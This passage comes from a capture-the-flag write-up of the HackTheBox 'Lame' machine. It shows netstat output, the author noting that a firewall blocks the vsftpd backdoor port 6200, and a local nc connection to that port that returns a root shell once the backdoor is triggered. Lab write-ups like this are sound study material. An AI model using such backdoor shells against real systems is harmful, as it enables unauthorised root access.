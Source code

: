     tcp6       0      0 :::5432                 :::*                    LISTEN      4840/postgres   
    tcp6       0      0 ::1:953                 :::*                    LISTEN      4612/named       
    

The firewall must be blocking a lot.

That means that if the backdoor is triggered, and starts listening on 6200, it’s likely not reachable from my host. I’ll test. For demonstration purposes, I’ll switch to the user on the box, makis:

    root@lame:/etc# su - makis -c bash
    makis@lame:~$ nc 127.0.0.1 6200
    (UNKNOWN) [127.0.0.1] 6200 (?) : Connection refused
    

I’m unable to connect to the backdoor. When I trigger the backdoor again, now I can connect and get a shell as root:

    makis@lame:~$ nc 127.0.0.1 6200
    id
    uid=0(root) gid=0(root)
    

I can see the port is now listening:

    root@lame:/etc# netstat -tnlp | grep 6200
    tcp        0      0 0.0.0.0:6200            0.0.0.0:*               LISTEN      5580/vsftpd  
    

[Lame distcc + Privesc »](https://0xdf.gitlab.io/2020/04/08/htb-lame-more.html)

[查看原网页: 0xdf.gitlab.io](https://0xdf.gitlab.io/2020/04/07/htb-lame.html)